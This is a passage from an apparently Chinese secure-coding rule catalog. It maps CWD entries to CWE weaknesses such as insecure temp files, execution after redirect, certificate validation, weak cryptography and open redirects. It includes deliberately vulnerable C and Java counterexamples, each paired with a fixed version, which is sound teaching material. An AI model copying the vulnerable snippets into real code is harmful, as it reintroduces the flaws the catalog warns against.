        exit(EXIT_FAILURE);
    }
    strcpy(fullPath, tempDir);
    strcat(fullPath, tempFileName);
    
    int fd = open(fullPath, O_CREAT | O_WRONLY, 0666);
    if (fd == -1) {
        perror("open");
        free(fullPath);
        exit(EXIT_FAILURE);
    }
    
    // 写入敏感数据到临时文件
    const char* data = "Sensitive information";
    write(fd, data, strlen(data) + 1);
    
    close(fd);
    free(fullPath);
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>

int main() {
    const char* tempDir = "/tmp"; // 安全的临时目录
    const char* tempFileName = "tempfileXXXXXX"; // 使用模板创建唯一文件
    
    // 正确：在安全目录中使用mkstemp创建临时文件
    char* fullPath = malloc(strlen(tempDir) + strlen(tempFileName) + 2); // +2 for '/' and null
    if (!fullPath) {
        perror("malloc");
        exit(EXIT_FAILURE);
    }
    snprintf(fullPath, strlen(tempDir) + strlen(tempFileName) + 2, "%s/%s", tempDir, tempFileName);
    
    int fd = mkstemp(fullPath);
    if (fd == -1) {
        perror("mkstemp");
        free(fullPath);
        exit(EXIT_FAILURE);
    }
    
    // 确保文件权限为仅创建者可读写
    if (fchmod(fd, S_IRUSR | S_IWUSR) == -1) {
        perror("fchmod");
        close(fd);
        unlink(fullPath);
        free(fullPath);
        exit(EXIT_FAILURE);
    }
    
    // 写入敏感数据到临时文件
    const char* data = "Sensitive information";
    write(fd, data, strlen(data) + 1);
    
    close(fd);
    
    // 删除临时文件
    if (unlink(fullPath) == -1) {
        perror("unlink");
        exit(EXIT_FAILURE);
    }
    
    free(fullPath);
    return 0;
}
```

**修复建议**
1.使用安全的临时目录：如正确案例所示，使用/tmp或/var/tmp等系统提供的安全临时目录。
2.使用mkstemp创建临时文件：避免使用open或creat函数，改用mkstemp，确保文件权限安全。
3.显式设置文件权限：在创建文件时，显式设置严格的权限，如S_IRUSR | S_IWUSR，确保只有创建者可以访问。
4.删除临时文件：在程序退出前，确保删除所有临时文件，避免敏感数据残留。

#### CWD-1628-000 在具有不安全权限的目录中创建临时文件

**业界缺陷**

- [CWE-379: Creation of Temporary File in Directory with Insecure Permissions](https://cwe.mitre.org/data/definitions/379.html)
---

# CWD-1629 重定向后执行(EAR)

**描述**
Web应用程序发送重定向到另一个位置，但没有退出，而是执行其他代码。可能会影响应用程序的控制流，并允许执行不受信任的代码。

**语言: **JAVA,SHELL

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 重定向逻辑异常**
**语言: **JAVA

**描述**
sendRedirect()方法后还有其他的逻辑代码。

**反例**
```java
public void doFilter(ServletRequest arg0, ServletResponse arg1,
		FilterChain arg2) throws IOException, ServletException {
	HttpServletRequest  request = (HttpServletRequest)arg0;
	HttpServletResponse response = (HttpServletResponse) arg1;	
	
	String url = doSomething();
	if(url != null) {
	    response.sendRedirect(url);
	}
	doSomethingElse();
    arg2.doFilter(arg0, arg1);	
}
```

**正例**
```java
public void doFilter(ServletRequest arg0, ServletResponse arg1,
		FilterChain arg2) throws IOException, ServletException {
	HttpServletRequest  request = (HttpServletRequest)arg0;
	HttpServletResponse response = (HttpServletResponse) arg1;	
	
	String url = doSomething();
	if(url != null) {
	    response.sendRedirect(url);
	} else {
	    doSomethingElse();
        arg2.doFilter(arg0, arg1);
	}	
}
```

**修复建议**
sendRedirect()方法后不要再执行其他的逻辑代码。

#### CWD-1629-000 重定向后执行(EAR)

**业界缺陷**

- [CWE-698: Execution After Redirect (EAR)](https://cwe.mitre.org/data/definitions/698.html)
---

# CWD-1632 EJB不良实践：使用类加载器

**描述**
使用类加载器违反了Enterprise JavaBeans (EJB)规范。Enterprise JavaBeans规范要求每个Bean提供者遵循一组编程指南，这些指南旨在确保Bean是可移植的，并且在任何EJB容器中行为一致。在这种情况下，产品违反了以下EJB准则：“企业Bean不得尝试创建类加载器；获取当前类加载器；设置上下文类加载器；设置安全管理器；创建新的安全管理器；停止JVM；或更改输入、输出和错误流。”该规范以以下方式证明了此要求的正当性：这些函数是为EJB容器保留的。允许企业Bean使用这些功能可能会损害安全性，并降低容器正确管理运行时环境的能力。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1632-000 EJB不良实践：使用类加载器

**业界缺陷**

- [CWE-578: EJB Bad Practices: Use of Class Loader](https://cwe.mitre.org/data/definitions/578.html)
---

# CWD-1633 J2EE不良实践：直接使用Sockets

**描述**
J2EE应用程序直接使用Sockets，而不是使用框架方法调用。J2EE标准只允许在没有更高级的协议可用时使用Sockets用于与遗留系统的通信。编写自己的通信协议需要解决棘手的安全问题。如果没有安全专家的认真审查，自定义通信协议很有可能会出现安全问题。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1633-000 J2EE不良实践：直接使用Sockets

**业界缺陷**

- [CWE-246: J2EE Bad Practices: Direct Use of Sockets](https://cwe.mitre.org/data/definitions/246.html)
---

# CWD-1634 日志级别设置不当

**描述**
如果日志级别设置不当，可能会导致某些信息没有被记录下来。例如，关键的错误信息被设置为INFO级别，而不是ERROR级别，这样在查看日志时可能会忽略这些重要的错误信息。

**语言: **FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1634-000 日志级别设置不当

---

# CWD-1635 未使用占位符填充日志

**描述**
在编写或处理日志信息时，没有正确地使用占位符来插入变量值。这种情况下，日志信息可能会显得不够具体或者难以理解。例如，在Python中使用logging模块记录日志时，如果直接将变量名作为字符串的一部分写入日志，而不是通过格式化字符串的方式插入变量值，就可能出现这样的问题。正确的做法是使用占位符来确保日志中的变量值能够被正确地插入和显示。比如，可以使用`%s`、`{}`等占位符，并结合相应的格式化方法来实现这一点。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1635-000 未使用占位符填充日志

---

# CWD-1636 debug日志盗用toString方法

**描述**
在调试过程中，有时我们需要查看对象的具体内容。这时，通常会使用 `toString()` 方法来获取对象的字符串表示形式。然而，默认的 `toString()` 方法可能并不总是提供我们想要的信息。为了更好地调试，我们可以自定义 `toString()` 方法，以便它返回更有用的信息。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1636-000 debug日志盗用toString方法

---

# CWD-1637 日志记录不足

**描述**
关键事件或错误没有被适当地记录下来，或者记录的信息不够详细，从而导致调试和问题排查变得困难。这种缺陷可能会影响系统的稳定性和安全性，因为重要的操作或异常情况没有被正确记录，无法及时发现和处理。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1637-000 日志记录不足

**业界缺陷**

- [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)
---

# CWD-1638 SQL不良实践：对外部传入的limit参数未进行大小限制

**描述**
在处理SQL查询时，如果直接使用外部传入的 `LIMIT` 参数而没有进行适当的验证和限制，可能会导致一些安全性和性能方面的问题。以下是几个常见的不良实践及其潜在风险：


1. **性能问题**：
  - 如果用户可以随意设置 `LIMIT` 参数的值，可能会导致数据库执行大量的数据读取操作，从而消耗大量资源。2. **SQL注入攻击**：
  - 虽然直接通过 `LIMIT` 参数进行SQL注入的风险较低，但不加限制地使用外部输入仍然存在一定的安全隐患。3. **恶意行为**：
  - 用户可以通过设置非常大的 `LIMIT` 值来尝试耗尽服务器资源，造成拒绝服务（DoS）攻击。
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1638-000 SQL不良实践：对外部传入的limit参数未进行大小限制

---

# CWD-1639 可序列化数据中包含不可序列化项

**描述**
当一个可序列化的对象包含非可序列化的对象时，可能会导致数据丢失、应用程序崩溃或安全漏洞。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1639-000 可序列化数据中包含不可序列化项

**业界缺陷**

- [CWE-1070: Serializable Data Element Containing non-Serializable Item Elements](https://cwe.mitre.org/data/definitions/1070.html)
---

# CWD-1640 数据库事务不良实践

**描述**
数据库事务管理是确保数据一致性和完整性的重要手段。然而，在实际开发过程中，如果不正确地使用事务，可能会导致一系列问题。以下是一些常见的数据库事务不良实践及其潜在风险：


1. **不使用事务**
  - **风险**：当多个操作需要作为一个整体完成时，如果没有使用事务，部分操作成功而另一部分失败可能导致数据不一致。  - **示例**：在一个银行转账场景中，从一个账户转钱到另一个账户，如果没有使用事务，可能会出现只扣款但未存款的情况。2. **过长的事务**
  - **风险**：长时间保持事务打开会占用数据库资源，可能导致其他事务被阻塞，影响系统性能。  - **示例**：在一个复杂的业务逻辑中，事务持续时间过长，导致其他请求等待，最终可能超时。3. **频繁提交事务**
  - **风险**：频繁提交事务会导致数据库频繁写入日志文件，增加磁盘I/O压力，降低性能。  - **示例**：在一个循环中每次修改一条记录后立即提交事务，而不是批量提交。4. **不恰当的隔离级别**
  - **风险**：选择不合适的隔离级别可能导致脏读、不可重复读或幻读等问题。  - **示例**：在高并发环境下使用读未提交（Read Uncommitted）隔离级别，可能导致读取到未提交的数据。5. **不回滚错误**
  - **风险**：遇到错误时不回滚事务可能导致数据不一致。  - **示例**：在事务中发生异常时，没有捕获异常并回滚事务，导致部分操作成功而另一部分失败。6. **嵌套事务**
  - **风险**：嵌套事务可能导致事务管理复杂化，容易出现死锁或其他并发问题。  - **示例**：在一个事务中启动另一个事务，可能导致事务嵌套层次过多，难以跟踪和调试。7. **不正确的事务边界**
  - **风险**：事务边界定义不当可能导致部分操作被包含在事务中，而另一部分操作未被包含。  - **示例**：在一个方法中开始事务，但在另一个方法中结束事务，导致事务边界不明确。
**语言: **JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1640-000 数据库事务不良实践

#### CWD-1640-001 【不正确使用@Transactional注解影响业务可靠性】类内部调用带有@Transactional的方法，事务不会生效

#### CWD-1640-002 【不正确使用@Transactional注解影响业务可靠性】类实例调用带有@Transactional的方法，事务不会生效

#### CWD-1640-003 【事务使用不当造成的性能问题】@Transactional加到类头导致类中不必要的public方法被启动事务

---

# CWD-1664 证书信任链的不当遵循

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1664-000 证书信任链的不当遵循

#### CWD-1664-001 重写javax.net.ssl.X509TrustManager类的getAcceptedIssuers方法时返回null，对对端证书校验存在问题

#### CWD-1664-002 重写的checkServerTrusted、checkClientTrusted函数中为对对端证书一直校验到信任证书链的根证书

#### CWD-1664-003 jdk提供的SSLContext初始化方式只使用默认的本地Keystore和默认的证书校验规则，存在证书认证相关的问题

#### CWD-1664-004 【使用org.apache.http.ssl.TrustStrategy类进行证书管理时存在的问题】错误使用TrustAllStrategy信任所有证书

#### CWD-1664-005 【使用org.apache.http.ssl.TrustStrategy类进行证书管理时存在的问题】错误使用TrustSelfSignedStrategy信任自签证书

#### CWD-1664-006 重写TrustStrategy的isTrusted函数时，未进行任何证书相关的校验

---

# CWD-1665 主机不匹配的证书验证不正确

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1665-000 主机不匹配的证书验证不正确

#### CWD-1665-001 【使用org.apache.http.ssl.TrustStrategy类进行证书管理时存在的问题】使用NoopHostnameVerifier忽略了主机名校验

#### CWD-1665-002 【使用org.apache.http.ssl.TrustStrategy类进行证书管理时存在的问题】自定义的接口HostnameVerifier忽略了主机名校验

---

# CWD-1666 证书吊销检查不当

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1666-000 证书吊销检查不当

#### CWD-1666-001 使用javax.net.ssl.X509TrustManager进行证书管理时未使用isRevoked、getCertStatus方法检查证书是否被吊销

#### CWD-1666-002 重写TrustStrategy的isTrusted函数时未通过isRevoked、getCertStatus方法检查证书是否被吊销

---

# CWD-1669 关键的功能缺少身份验证

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1669-000 关键的功能缺少身份验证

#### CWD-1669-001 【zookeeper配置不当导致未开启认证问题】zookeeper未开启client认证

---

# CWD-1682 加密强度不足

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1682-000 加密强度不足

#### CWD-1682-001 使用org.bouncycastle.crypto.PBEParametersGenerator.init方法初始化PBKDF2参数生成器时设置了不满足要求的迭代次数

#### CWD-1682-002 使用org.bouncycastle.crypto.PBEParametersGenerator.generateDerivedParameters生成的口令哈希长度小于256bits

#### CWD-1682-003 使用org.bouncycastle.crypto.PBEParametersGenerator.init方法初始化PBKDF2参数生成器时盐值长度没有超过16字节

#### CWD-1682-004 构造PBEKeySpec实例时设置了不满足要求的迭代次数

#### CWD-1682-005 在口令单向哈希的场景，构造PBEKeySpec实例时哈希长度小于256bits

#### CWD-1682-006 构造PBEKeySpec类实例时，参数中的盐值长度没有超过16字节

#### CWD-1682-007 调用SCrypt.generate函数进行计算时，CPU/内存占用参数N小于2^14

#### CWD-1682-008 使用SCrypt.generate(byte[] P, byte[] S, int N, int r, int p, int dkLen)函数计算时，并行化参数p小于1

#### CWD-1682-009 在口令单向哈希的场景，调用SCrypt.generate函数进行计算时，dkLen小于256bits

#### CWD-1682-010 调用SCrypt.generate函数进行计算时，块规模参数r小于8

#### CWD-1682-011 调用SCrypt.generate函数进行计算时，盐值S的长度小于16字节

#### CWD-1682-012 【对称密码算法中不安全的算法参数：IV唯一性】不同数据存在使用相同的IV加密，存在IV固定导致弱加密

#### CWD-1682-013 使用javax.crypto.Cipher类进行AES对称加密时，IV长度应为16字节

#### CWD-1682-014 使用java.security.spec.RSAKeyGenParameterSpec构造RSA密钥初始化参数时，公共指数e的值小于0x10001（2^16+1）

#### CWD-1682-015 使用EC算法构造密钥时，密钥长度不足256bits

#### CWD-1682-016 使用java.security.KeyPairGenerator.getInstance("RSA")获取密钥对生成器后，设置的RSA非对称加密密钥长度小于3072bits

#### CWD-1682-017 【加密算法密钥使用不当】在使用Cipher类进行非对称加密时，Cipher.init初始化代码显示使用了私钥进行加密，可使用公开的公钥解密，影响机密性

#### CWD-1682-018 构造javax.crypto.spec.DHGenParameterSpec类实例时，L值不足3072bits或N值不足256bits

#### CWD-1682-019 【数字签名算法用法不当】使用DSA签名时，未保证签名的r、s值均不为0

#### CWD-1682-020 使用java.security.Signature类进行DSA算法的数字签名时，DSA签名密钥的L值不足3072bits或N值不足256bits

---

# CWD-1687 随机数生成的熵不足

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1687-000 随机数生成的熵不足

#### CWD-1687-001 对应用在密码学场景的安全随机数字节数组的部分/全部字节与固定的值进行了异或、拼接等操作，降低了安全随机数的随机性

---

# CWD-1688 随机值空间小

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1688-000 随机值空间小

#### CWD-1688-001 UUID.randomUUID()方法生成的不安全随机数用于盐值，iv，密钥、挑战值、会话token、sessionid等密码学场景

---

# CWD-1691 伪随机数生成器（PRNG）中存在可预测种子

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1691-000 伪随机数生成器（PRNG）中存在可预测种子

#### CWD-1691-001 自行设置随机数种子容易产生安全风险

---

# CWD-1692 加密场景中使用伪随机数生成器（PRNG）

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1692-000 加密场景中使用伪随机数生成器（PRNG）

#### CWD-1692-001 【不安全随机数生成器】使用Random伪随机数生成器生成的不安全随机数用于盐值，iv，密钥、挑战值、会话token、sessionid等密码学场景

#### CWD-1692-002 【不安全随机数生成器】使用ThreadLocalRandom伪随机数生成器生成的不安全随机数用于盐值，iv，密钥、挑战值、会话token、sessionid等密码学场景

#### CWD-1692-003 由字符串获取的字节数组直接作为随机数用于盐值、iv、密钥、挑战值、会话token、sessionid等密码学场景

#### CWD-1692-004 使用javax.net.ssl.SSLContext.init方法初始化SSLContext对象时random参数设置为null，导致使用不安全的随机数

#### CWD-1692-005 【熵减后的安全随机数被用于密码算法场景中，存在不安全随机数使用】通过安全随机数生成索引取限定的空间中的字符，不满足不可预测性的要求

#### CWD-1692-006 【未使用符合要求的伪随机数生成器】new SecureRandom()无参构造函数缺省使用SHA1PRNG算法获取了不符合要求的伪随机数产生器

#### CWD-1692-007 【未使用符合要求的伪随机数生成器】SecureRandom.getInstance(String algorithm)实例化伪随机数对象时指定不安全的SHA1PRNG算法

#### CWD-1692-008 【未使用符合要求的伪随机数生成器】SecureRandom子类实例缺省使用SHA1PRNG算法获取了不符合要求的伪随机数产生器

#### CWD-1692-009 【未使用符合要求的伪随机数生成器】反射创建SecureRandom实例缺省使用SHA1PRNG算法获取了不符合要求的伪随机数产生器

#### CWD-1692-010 【未使用符合要求的伪随机数生成器】使用jdk中KeyGenerator类导致缺省使用SHA1PRNG算法获取了不符合要求的伪随机数产生器

#### CWD-1692-011 【未使用符合要求的伪随机数生成器】使用spring-security中KeyGenerators类导致缺省使用SHA1PRNG算法获取了不符合要求的伪随机数产生器

#### CWD-1692-012 【未使用符合要求的伪随机数生成器】使用SSLServerSocketFactory.getDefault()方法获取工厂类时随机数对象默认使用不安全的SHA1PRNG算法

#### CWD-1692-013 【未使用符合要求的伪随机数生成器】使用SSLSocketFactory.getDefault()方法获取工厂类时随机数对象默认使用不安全的SHA1PRNG算法

---

# CWD-1694 在基于环境动态变化的情景中使用不变值

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1694-000 在基于环境动态变化的情景中使用不变值

#### CWD-1694-001 【加密算法密钥使用不当】同一个密钥被使用在不同业务，违背密钥使用需要业务职责单一

---

# CWD-1717 通过用户控制的SQL主键绕过授权

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1717-000 通过用户控制的SQL主键绕过授权

#### CWD-1717-001 SQL字符串where条件中拼接1个来源于不可信源的用户/角色标识参数，造成IDOR问题

#### CWD-1717-002 SQL字符串where条件中拼接多个来源于不可信源的用户/角色标识参数，造成IDOR问题

---

# CWD-1721 URL重定向到不受信任的站点（“打开重定向”）

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1721-000 URL重定向到不受信任的站点（“打开重定向”）

#### CWD-1721-001 若getContextPath返回为空，URL拼接的不可信数据被视作绝对路径，造成不安全重定向

#### CWD-1721-002 HttpServletResponse.sendRedirect进行重定向时，URL/HOST值完全能够被外部控制

#### CWD-1721-003 HttpServletResponse.sendRedirect使用的URL拼接了不可信数据导致服务器的HOST限制被绕过

#### CWD-1721-004 通过HttpServletResponse.sendRedirect进行重定向时，host校验方式不严格

#### CWD-1721-005 【通过Springboot框架的redirect的方式，使用受污染的URL字符串造成不安全重定向问题】URL/HOST值完全能够被外部控制，直接重定向到钓鱼网站页面

#### CWD-1721-006 Springboot框架的redirect的使用的URL拼接了不可信数据导致服务器的HOST限制被绕过

#### CWD-1721-007 【通过Springboot框架的redirect的方式，使用受污染的URL字符串造成不安全重定向问题】失效的host校验方式导致不安全的重定向问题

#### CWD-1721-008 【通过Spring框架的RedirectView的方式，使用受污染的URL字符串造成不安全重定向问题】URL/HOST值完全能够被外部控制，直接重定向到钓鱼网站页面

#### CWD-1721-009 org.springframework.web.servlet.view.AbstractUrlBasedView#setUrl设置的URL拼接了不可信数据导致服务器的HOST限制被绕过

#### CWD-1721-010 【通过Spring框架的RedirectView的方式，使用受污染的URL字符串造成不安全重定向问题】失效的host校验方式导致不安全的重定向问题

#### CWD-1721-011 【通过设置HTTP协议Location响应头方式，使用受污染的URL字符串造成不安全重定向问题】URL/HOST值完全能够被外部控制，直接重定向到钓鱼网站页面

#### CWD-1721-012 javax.servlet.http.HttpServletResponse#addHeader设置的URL拼接了不可信数据导致服务器的HOST限制被绕过

#### CWD-1721-013 【通过设置HTTP协议Location响应头方式，使用受污染的URL字符串造成不安全重定向问题】失效的host校验方式导致不安全的重定向问题

---

# CWD-1730 使用非规范URL路径进行授权决策

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1730-000 使用非规范URL路径进行授权决策

#### CWD-1730-001 【nginx配置不当导致越权访问问题】nginx配置中拒绝访问场景使用正则匹配，可能导致绕过黑名单访问

#### CWD-1730-002 通过字符串或正则匹配相关函数对HttpServletRequest.getContextPath()方法获取的URL进行校验时容易被绕过

#### CWD-1730-003 通过字符串或正则匹配相关函数对HttpServletRequest.getRequestURL()、getRequestURI()获取的URL/URI进行校验，容易被绕过

#### CWD-1730-004 springboot框架通过FilterRegistrationBean对过滤器的urlPatterns使用后缀匹配模式

#### CWD-1730-005 springboot框架通过FilterRegistrationBean对过滤器的urlPatterns使用精确匹配模式

#### CWD-1730-006 通过HttpServletRequest的getRequestDispatcher(url).forward/include方法转发请求时鉴权不足

---

# CWD-1736 权限保存不当

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1736-000 权限保存不当

#### CWD-1736-001 Log4j2组件自带appender对归档日志分配的权限过大

#### CWD-1736-002 【日志文件权限配置不当】Log4j2日志文件(正在记录)权限过大：使用log4j2自带的appender(File、RandomAccessFile等)

#### CWD-1736-003 Log4j2组件自定义appender的日志文件权限配置不正确

#### CWD-1736-004 【日志文件权限配置不当】使用logback组件提供的默认FileAppender记录日志文件，默认文件权限为644，建议为640

#### CWD-1736-005 【日志文件权限配置不当】使用logback组件提供的默认RollingFileAppender记录和归档日志文件，归档的日志文件权限默认权限为644，建议为440

#### CWD-1736-006 【日志文件权限配置不当】使用logback组件自定义appender，自定义appender生成的日志文件权限不正确

#### CWD-1736-007 多用户系统中通过I/O流相关函数创建的文件权限过大

#### CWD-1736-008 【在多用户系统中创建文件时显示设置的文件权限异常，例如大于660很可能权限过大】linux下使用PosixFilePermissions定义文件权限的场景设置的权限异常

---

# CWD-1764 使用有风险的密码学算法

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1764-000 使用有风险的密码学算法

#### CWD-1764-001 使用org.bouncycastle.crypto.generators.PKCS5S2ParametersGenerator构造方法获取PBKDF2参数生成器时使用了不安全的哈希算法

#### CWD-1764-002 使用SecretKeyFactory.getInstance("PBKDF2WithHmacXXX")获取PBKDF2密钥派生器对象时使用了不安全的哈希算法

#### CWD-1764-003 使用javax.crypto.Cipher.getInstance("AES/ECB/XXXPadding")获取加解密对象时使用不安全的ECB加密模式

#### CWD-1764-004 使用javax.crypto.Cipher.getInstance("AES/{ECB/CBC/PCBC}/XXXPadding")获取加解密对象时未使用CMS-Padding 或ISO-Padding填充方式

#### CWD-1764-005 使用javax.crypto.Cipher.getInstance("RSA/ECB/PKCS1Padding")方法获取RSA加解密对象时，未使用OAEP填充方式

#### CWD-1764-006 【口令哈希算法选择不当】对口令进行单向哈希操作时，未使用PBKDF2或Scrypt等基于口令的密钥派生算法。

#### CWD-1764-007 使用com.google.common.hash.Hashing类进行消息认证码计算时使用不安全的哈希算法-MD5

#### CWD-1764-008 使用com.google.common.hash.Hashing类进行消息认证码计算时使用不安全的哈希算法-SHA1

#### CWD-1764-009 使用javax.crypto.Mac类进行消息认证码计算时使用不安全的哈希算法-MD2

#### CWD-1764-010 使用javax.crypto.Mac类进行消息认证码计算时使用不安全的哈希算法-MD4

#### CWD-1764-011 使用javax.crypto.Mac类进行消息认证码计算时使用不安全的哈希算法-MD5

#### CWD-1764-012 使用javax.crypto.Mac类进行消息认证码计算时使用不安全的哈希算法-RIPEMD128

#### CWD-1764-013 使用javax.crypto.Mac类进行消息认证码计算时使用不安全的哈希算法-RIPEMD160

#### CWD-1764-014 使用javax.crypto.Mac类进行消息认证码计算时使用不安全的哈希算法-SHA1

#### CWD-1764-015 使用org.apache.commons.codec.digest.HmacUtils类进行消息认证码计算时使用不安全的哈希算法-MD5

#### CWD-1764-016 使用org.apache.commons.codec.digest.HmacUtils类进行消息认证码计算时使用不安全的哈希算法-SHA1

#### CWD-1764-017 使用BounCycastle库计算消息摘要时使用不安全的哈希算法-MD2

#### CWD-1764-018 使用BounCycastle库计算消息摘要时使用不安全的哈希算法-MD4

#### CWD-1764-019 使用BounCycastle库计算消息摘要时使用不安全的哈希算法-MD5

#### CWD-1764-020 使用BounCycastle库计算消息摘要时使用不安全的哈希算法-RIPEMD128

#### CWD-1764-021 使用BounCycastle库计算消息摘要时使用不安全的哈希算法-RIPEMD160

#### CWD-1764-022 使用BounCycastle库计算消息摘要时使用不安全的哈希算法-SHA1

#### CWD-1764-023 使用com.google.common.hash.Hashing类计算消息摘要时使用不安全的哈希算法-MD5

#### CWD-1764-024 使用com.google.common.hash.Hashing类计算消息摘要时使用不安全的哈希算法-SHA1

#### CWD-1764-025 使用java.security.MessageDigest类进行消息摘要时使用不安全的哈希算法-MD2

#### CWD-1764-026 使用java.security.MessageDigest类进行消息摘要时使用不安全的哈希算法-MD4

#### CWD-1764-027 使用java.security.MessageDigest类进行消息摘要时使用不安全的哈希算法-MD5

#### CWD-1764-028 使用java.security.MessageDigest类进行消息摘要时使用不安全的哈希算法-RIPEMD128

#### CWD-1764-029 使用java.security.MessageDigest类进行消息摘要时使用不安全的哈希算法-RIPEMD160

#### CWD-1764-030 使用java.security.MessageDigest类进行消息摘要时使用不安全的哈希算法-SHA1

#### CWD-1764-031 使用org.apache.commons.codec.digest.DigestUtils类计算消息摘要时使用不安全的哈希算法-MD2

#### CWD-1764-032 使用org.apache.commons.codec.digest.DigestUtils类计算消息摘要时使用不安全的哈希算法-MD5

#### CWD-1764-033 使用org.apache.commons.codec.digest.DigestUtils类计算消息摘要时使用不安全的哈希算法-SHA1

#### CWD-1764-034 使用java.security.Signature类进行数字签名时使用不安全的哈希算法-MD2

#### CWD-1764-035 使用java.security.Signature类进行数字签名时使用不安全的哈希算法-MD4

#### CWD-1764-036 使用java.security.Signature类进行数字签名时使用不安全的哈希算法-MD5

#### CWD-1764-037 使用java.security.Signature类进行数字签名时使用不安全的哈希算法-RIPEMD128

#### CWD-1764-038 使用java.security.Signature类进行数字签名时使用不安全的哈希算法-RIPEMD160

#### CWD-1764-039 使用java.security.Signature类进行数字签名时使用不安全的哈希算法-SHA1和SHA224

#### CWD-1764-040 【使用弱密码算法：使用弱对称密码算法：分组加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的3DES算法

#### CWD-1764-041 【使用弱密码算法：使用弱对称密码算法：分组加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的Blowfish算法

#### CWD-1764-042 【使用弱密码算法：使用弱对称密码算法：分组加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的DES算法

#### CWD-1764-043 【使用弱密码算法：使用弱对称密码算法：分组加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的RC2算法

#### CWD-1764-044 【使用弱密码算法：使用弱对称密码算法：分组加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的Skipjack算法

#### CWD-1764-045 【使用弱密码算法：使用弱对称密码算法：分组加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的TEA算法

#### CWD-1764-046 【使用弱密码算法：使用弱对称密码算法：流加密】在使用javax.crypto.Cipher类进行加解密时使用不安全的RC4算法

#### CWD-1764-047 【使用私有的、非标准的密码算法】差错控制编码实现完整性校验：Parity奇偶校验只能检测单个比特位的错误，对于多比特位错误或恶意篡改数据的攻击并不可靠。

#### CWD-1764-048 【使用私有的、非标准的密码算法】差错控制编码实现完整性校验：使用CRC64循环冗余校验进行数据完整性校验，CRC64循环冗余校验存在被篡改的风险。

#### CWD-1764-049 使用guava提供的CRC32循环冗余校验进行数据完整性校验存在被篡改的风险

#### CWD-1764-050 【使用私有的、非标准的密码算法】差错控制编码实现完整性校验：使用JDK提供的CRC32循环冗余校验进行数据完整性校验，CRC32循环冗余校验存在被篡改的风险。

#### CWD-1764-051 【使用私有的、非标准的密码算法】改造标准密码算法：创建CipherSpi子类，重写engineDoFinal方法，改写Cipher默认加解密逻辑

#### CWD-1764-052 【使用私有的、非标准的密码算法】误用非密码算法对数据进行加密：用编码的方式（如Base64编码）实现数据加密的伪加密实现

#### CWD-1764-053 自行定义的密码算法没有调用任何Cipher等加解密库函数

#### CWD-1764-054 使用java.security.Signature.getInstance("XXXwithRSA")方法获取RSA签名对象时，未采用PSS填充方式

#### CWD-1764-055 【未使用pbkdf2加密存储口令】口令保用pbkdf2加密存储口令

#### CWD-1764-056 【消息认证码使用不当】直接将密钥和消息通过字符或字节方式拼接后再进行哈希运算，该哈希值不当的被作为MAC值来使用

---

# CWD-1781 不安全协议

**描述**
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1781-000 不安全协议

#### CWD-1781-001 【SSH协议不安全配置项】SSH协议使用CBC模式：apache mina组件使用CBC加密算法配置

#### CWD-1781-002 【SSH协议不安全配置项】SSH协议使用CBC模式：sshj组件使用CBC加密算法配置

#### CWD-1781-003 【SSH协议不安全配置项】SSH协议使用弱对称加解密算法：apache mina使用弱对称加解密算法

#### CWD-1781-004 【SSH协议不安全配置项】SSH协议使用弱对称加解密算法：sshj组件使用弱对称加解密算法

#### CWD-1781-005 【SSH协议不安全配置项】SSH协议中使用弱公钥(签名)算法：sshj组件使用RSA、DSS作为公钥算法

#### CWD-1781-006 【SSH协议不安全配置项】SSH协议中使用弱公钥算法：apache mina使用RSA、DSS作为公钥算法

#### CWD-1781-007 【SSH协议不安全配置项】SSH协议中使用弱密钥交换算法：apache mina组件没有使用推荐的curve25519/curve448密钥交换算法

#### CWD-1781-008 【SSH协议不安全配置项】SSH协议中使用弱密钥交换算法：sshj组件没有使用推荐的curve25519/curve448密钥交换算法

#### CWD-1781-009 【SSH协议不安全配置项】SSH协议中使用弱消息认证算法：apache mina组件使用sha1、MD5消息认证算法

